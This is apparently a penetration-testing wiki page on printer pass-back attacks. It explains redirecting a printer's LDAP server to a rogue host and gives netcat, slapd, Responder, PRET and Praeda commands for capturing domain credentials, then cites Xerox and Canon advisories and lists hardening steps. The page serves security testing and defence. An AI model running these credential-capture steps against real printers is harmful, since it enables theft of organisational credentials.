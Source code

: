 # Information in Printers

There are several blogs in the Internet which **highlight the dangers of leaving printers configured with LDAP with default/weak** logon credentials.  \
This is because an attacker could **trick the printer to authenticate against a rogue LDAP server** (typically a `nc -vv -l -p 389` or `slapd -d 2` is enough) and capture the printer **credentials in clear-text**.

Also, several printers will contain **logs with usernames** or could even be able to **download all usernames** from the Domain Controller.

All this **sensitive information** and the common **lack of security** makes printers very interesting for attackers.

Some introductory blogs about the topic:

- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

---
## Printer Configuration

- **Location**: The LDAP server list is usually found in the web interface (e.g. *Network ➜ LDAP Setting ➜ Setting Up LDAP*).
- **Behavior**: Many embedded web servers allow LDAP server modifications **without re-entering credentials** (usability feature → security risk).
- **Exploit**: Redirect the LDAP server address to an attacker-controlled host and use the *Test Connection* / *Address Book Sync* button to force the printer to bind to you.

---
## Capturing Credentials

### Method 1 – Netcat Listener

```bash
sudo nc -k -v -l -p 389     # LDAPS → 636 (or 3269)
```

Small/old MFPs may send a simple *simple-bind* in clear-text that netcat can capture. Modern devices usually perform an anonymous query first and then attempt the bind, so results vary.

### Method 2 – Full Rogue LDAP server (recommended)

Because many devices will issue an anonymous search *before* authenticating, standing up a real LDAP daemon yields much more reliable results:

```bash
# Debian/Ubuntu example
sudo apt install slapd ldap-utils
sudo dpkg-reconfigure slapd   # set any base-DN – it will not be validated

# run slapd in foreground / debug 2
slapd -d 2 -h "ldap:///"      # only LDAP, no LDAPS
```

When the printer performs its lookup you will see the clear-text credentials in the debug output.

> 💡  You can also use `impacket/examples/ldapd.py` (Python rogue LDAP) or `Responder -w -r -f` to harvest NTLMv2 hashes over LDAP/SMB.

---
## Recent Pass-Back Vulnerabilities (2024-2025)

Pass-back is *not* a theoretical issue – vendors keep publishing advisories in 2024/2025 that exactly describe this attack class.

### Xerox VersaLink – CVE-2024-12510 & CVE-2024-12511

Firmware ≤ 57.69.91 of Xerox VersaLink C70xx MFPs allowed an authenticated admin (or anyone when default creds remain) to:

* **CVE-2024-12510 – LDAP pass-back**: change the LDAP server address and trigger a lookup, causing the device to leak the configured Windows credentials to the attacker-controlled host.
* **CVE-2024-12511 – SMB/FTP pass-back**: identical issue via *scan-to-folder* destinations, leaking NetNTLMv2 or FTP clear-text creds.

A simple listener such as:

```bash
sudo nc -k -v -l -p 389     # capture LDAP bind
```

or a rogue SMB server (`impacket-smbserver`) is enough to harvest the credentials.  

### Canon imageRUNNER / imageCLASS – Advisory 20 May 2025

Canon confirmed a **SMTP/LDAP pass-back** weakness in dozens of Laser & MFP product lines. An attacker with admin access can modify the server configuration and retrieve the stored credentials for LDAP **or** SMTP (many orgs use a privileged account to allow scan-to-mail).  

The vendor guidance explicitly recommends:

1. Updating to patched firmware as soon as available.
2. Using strong, unique admin passwords.
3. Avoiding privileged AD accounts for printer integration.

---
## Automated Enumeration / Exploitation Tools

| Tool | Purpose | Example |
|------|---------|---------|
| **PRET** (Printer Exploitation Toolkit) | PostScript/PJL/PCL abuse, file-system access, default-creds check, *SNMP discovery* | `python pret.py 192.168.1.50 pjl` |
| **Praeda** | Harvest configuration (including address books & LDAP creds) via HTTP/HTTPS | `perl praeda.pl -t 192.168.1.50` |
| **Responder / ntlmrelayx** | Capture & relay NetNTLM hashes from SMB/FTP pass-back | `responder -I eth0 -wrf` |
| **impacket-ldapd.py** | Lightweight rogue LDAP service to receive clear-text binds | `python ldapd.py -debug` |

---
## Hardening & Detection

1. **Patch / firmware-update** MFPs promptly (check vendor PSIRT bulletins).
2. **Least-Privilege Service Accounts** – never use Domain Admin for LDAP/SMB/SMTP; restrict to *read-only* OU scopes.
3. **Restrict Management Access** – place printer web/IPP/SNMP interfaces in a management VLAN or behind an ACL/VPN.
4. **Disable Unused Protocols** – FTP, Telnet, raw-9100, older SSL ciphers.
5. **Enable Audit Logging** – some devices can syslog LDAP/SMTP failures; correlate unexpected binds.
6. **Monitor for Clear-Text LDAP binds** on unusual sources (printers should normally talk only to DCs).
7. **SNMPv3 or disable SNMP** – community `public` often leaks device & LDAP config.

---
## References

- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)
- Rapid7. “Xerox VersaLink C7025 MFP Pass-Back Attack Vulnerabilities.” February 2025.  
- Canon PSIRT. “Vulnerability Mitigation Against SMTP/LDAP Passback for Laser Printers and Small Office Multifunction Printers.” May 2025.

